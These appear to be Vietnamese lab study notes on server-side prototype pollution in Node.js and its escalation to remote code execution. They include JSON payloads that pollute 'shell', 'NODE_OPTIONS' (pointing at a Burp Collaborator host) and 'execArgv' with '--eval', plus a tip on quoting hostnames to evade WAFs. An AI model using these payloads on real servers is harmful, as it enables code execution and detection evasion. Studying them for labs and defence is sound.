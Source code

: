 ## Scanning for server-side prototype pollution sources 

Cài đặt extension `Server-Side Prototype Pollution Scanner`. 

## Bypassing input filters for server-side prototype pollution 

Các ứng dụng Node cũng có thể xóa hoặc vô hiệu hoá `__proto__` hoàn toàn bằng các cờ dòng lệnh `--disable-proto=delete` hoặc `--disable-proto=throw` tương ứng. Tuy nhiên, điều này vẫn có thể bị bypass bằng kỹ thuật constructor.

## RCE thông qua server prototype pollution 

### Identifying a vulnerable request 

Nhiều sink thực thi lệnh nằm trong `child_process`. Chúng thường bị gọi bất đồng bộ so với request gây pollution, nên khó phát hiện. 

Kỹ thuật phát hiện hữu ích: pollute prototype bằng payload tương tác với Burp Collaborator để khi sink được gọi. 

**NODE_OPTIONS** và vector nguy hiểm vì nó được đọc từ `process.env` - nếu attacker đặt được `NODE_OPTIONS` qua prototype pollution, họ có thể chèn tham số dòng lệnh cho mọi tiến trình Node mới. 

Kết hợp `shell` của `child_process` + `NODE_OPTIONS` độc hại có thể khiến mỗi tiến trình con thực hiện lệnh do attacker kiểm soát (và kích hoạt tương tác với Burp Collaborator để dễ phát hiện)

```json
"__proto__": {
    "shell":"node",
    "NODE_OPTIONS":"--inspect=YOUR-COLLABORATOR-ID.oastify.com\"\".oastify\"\".com"
}
``` 

Bằng cách này, mình có thể dễ dàng nhận biết khi nào một request tạo ra một tiến trình con mới có các tham số dòng lệnh có thể bị điều khiển thông qua prototype pollution.

Ý là việc thêm dấu ``\"`` quanh tên máy chủ không bắt buộc về mặt kỹ thuật, nhưng thường được dùng để che mắt các hệ thống phát hiện (ví dụ WAF) nhằm giảm khả năng bị phát hiện khi thử nghiệm.

### RCE thông qua `child_process.fork()`

- `child_process.spawn()/fork()/execSync()` là những sink có thể dẫn tới thực thi lệnh trên Node. 
- `fork()` nhận `options.execArgv` (mảng chuỗi). Nếu `execArgv` để **undefined** và attacker pollute prototype, có thể điều khiển mảng này. 
- Khác với `NODE_OPTIONS`, `execArgv` cho phép truyền trực tiếp đổi số của tiến trình con - ví dụ `--eval` để chạy JavaScript tùy ý trong child process.
- Nếu attacker đặt `execArgv` thành `["--eval=require('...')"]` thì child process sẽ load/thi thành payload do attacker chỉ định. 
- Kết hợp khả năng inject javascript vào child (qua `--eval`) với lệnh hệ thống kiểu `execSync()` có thể leo thang từ prototype pollution thành RCE trên server. 

```json
"execArgv": [
    "--eval=require('<module>')"
]
```
